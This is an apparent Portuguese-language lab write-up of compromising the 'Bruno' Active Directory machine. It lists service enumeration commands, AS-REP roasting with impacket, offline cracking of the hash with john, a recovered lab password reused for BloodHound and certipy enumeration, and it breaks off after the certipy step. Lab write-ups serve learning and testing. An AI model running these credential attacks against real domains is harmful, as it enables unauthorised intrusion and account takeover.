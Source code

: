 Bruno
========================

## Enumeração

    sudo nmap_enum bruno.vl

![qownnotes-media-MgxJVk](../../../media/qownnotes-media-MgxJVk.png)

    sudo nmap -sU -p 53,111,113,161,500,2049 bruno.vl

![qownnotes-media-duKidc](../../../media/qownnotes-media-duKidc.png)


    sudo nmap -sS -p- --max-retries 0 -Pn -T5 bruno.vl

![qownnotes-media-dDDDsd](../../../media/qownnotes-media-dDDDsd.png)


### FTP Anonymous

    ftp -a 10.10.81.49

![qownnotes-media-abqnLc](../../../media/qownnotes-media-abqnLc.png)

Só tem na pasta app, no demais não tem mais nada exceto um test.exe dentro de "benign"

![qownnotes-media-saZKac](../../../media/qownnotes-media-saZKac.png)

Encontramos um vetor interessante... prosseguimos apartir [dessa sessão](#exploitation)

### HTTP


Enumerar diretórios

    feroxbuster -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bruno.vl

Enumerar subdomínios/virtual hosts

    ffuf -H "Host: FUZZ.bruno.vl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://bruno.vl -fs 703

![qownnotes-media-pIdUIN](../../../media/qownnotes-media-pIdUIN.png)

### SMB

    enum4linux -a -A 10.10.81.49

![qownnotes-media-aKHtiY](../../../media/qownnotes-media-aKHtiY.png)

    crackmapexec smb 10.10.81.49 -u '' -p '' --shares
 
    crackmapexec smb 10.10.81.49 -u 'guest' -p '' --shares

![qownnotes-media-hRYxrQ](../../../media/qownnotes-media-hRYxrQ.png)

    smbclient -U '' -N -L //10.10.81.49

### LDAP

    ldapsearch -x -H ldap://10.10.81.49 -s base
 

![qownnotes-media-dQwiZQ](../../../media/qownnotes-media-dQwiZQ.png)

### Kerberos

    kerbrute userenum -d bruno.vl /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.81.49

## exploitation

Embora eu tenha achado o subdomínio "dev", o que fez sentido considerar como próximos passos foi um arquivo chamado "changelog":

![qownnotes-media-WnfXAI](../../../media/qownnotes-media-WnfXAI.png)

então, dando sequência, prosseguimos com um usuário válido:

    echo "svc_scan" >> users.txt
    kerbrute userenum -d bruno.vl --dc 10.10.81.49 users.txt
    impacket-GetNPUsers -request -usersfile users.txt bruno.vl/ -dc-host brunodc.bruno.vl

![qownnotes-media-tsQyum](../../../media/qownnotes-media-tsQyum.png)

    john -w=/usr/share/wordlists/rockyou.txt hash.txt
 
Depois disso, fiz uma sincronização de relógio com o DC com o seguinte comando:

    sudo ntpdate 10.10.81.49
    bloodhound-python -c all --zip -u svc_scan -p Sunshine1 -dc brunodc.bruno.vl -ns 10.10.81.49

Com isso descobri uma outra conta que também possui a mesma senha por meio de as rep reoasting...

Resumindo, o que vamos fazer agora é tentar algo com o certipy:

    certipy-ad find -username svc_scan@bruno.vl -password Sunshine1 -dc-ip 10.10.81.49

Depois acabou alterando o IP da máquina, por conta do reset:

![qownnotes-media-SeRWjR](../../../media/qownnotes-media-SeRWjR.png)

